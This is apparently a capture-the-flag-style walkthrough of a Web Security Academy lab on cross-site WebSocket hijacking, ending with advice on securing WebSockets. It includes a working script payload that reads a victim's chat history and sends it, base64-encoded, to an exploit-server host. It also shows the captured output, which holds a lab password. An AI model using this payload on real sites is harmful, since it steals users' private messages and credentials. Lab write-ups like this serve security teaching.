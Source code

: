 # SOLUTION
- Click "Live chat" and send a chat message.
- Reload the page.
- In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
- In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
- Right-click on the handshake request and select "Copy URL".
- In the browser, go to the exploit server and paste the following template into the "Body" section:
```

<script>
    const socket = new WebSocket("wss://0a450078045f343380c52bc800e60053.web-security-academy.net/chat");

    socket.onopen = function() {
    // Send "Ready" when connection is established
    socket.send("READY");
    };

    socket.onmessage = function(event) {
    fetch(
        "https://exploit-0a2e001e0482342780a72a15015b001f.exploit-server.net/exploit?message=" + btoa(event.data)
    )
    };   
</script>
```  
- Deliver The exploit to the victim and observe 
```
eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ== eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0= eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgdzN1ZXM0d3Rjd2QyZ2loYjB5bmkifQ== eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9 
eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 
```
- Go to burp suite decoder and paste them together, You are going to have the full chat of user carlos\
- copy the password to solve the lab.


# How to secure a WebSocket connection
- To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:

1. Use the wss:// protocol (WebSockets over TLS).
2. Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
3. Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
4. Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and cross-site scripting.
